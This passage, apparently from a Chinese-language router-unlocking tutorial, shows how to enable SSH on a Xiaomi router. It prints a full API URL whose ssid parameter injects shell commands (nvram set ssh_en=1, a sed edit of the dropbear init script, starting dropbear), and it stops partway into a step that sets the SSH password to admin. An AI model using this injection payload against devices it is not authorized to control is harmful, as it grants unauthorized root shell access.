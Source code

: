 #### 获取 SSH：

```
http://192.168.31.1/cgi-bin/luci/;stok=（将token放入这里）/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

*补全**stok=**后面的数据，*

![image-20220427143427007](https://raw.githubusercontent.com/kengerlwl/kengerlwl.github.io/master/image/eac86cb5b405690647db62f9da52eb90/d5cca4e584580e525d73e00d68be7195.png)

*然后复制到浏览器打开*，显示`{"code":0}`就说明成功了。

![image-20220427143453925](https://raw.githubusercontent.com/kengerlwl/kengerlwl.github.io/master/image/eac86cb5b405690647db62f9da52eb90/4c3fa205e576a9a45fd7a365fc42fa08.png)

#### 修改默认 SSH 密码为 admin

具体办法同上，也是选择拿到token复制到如下链接并访问。
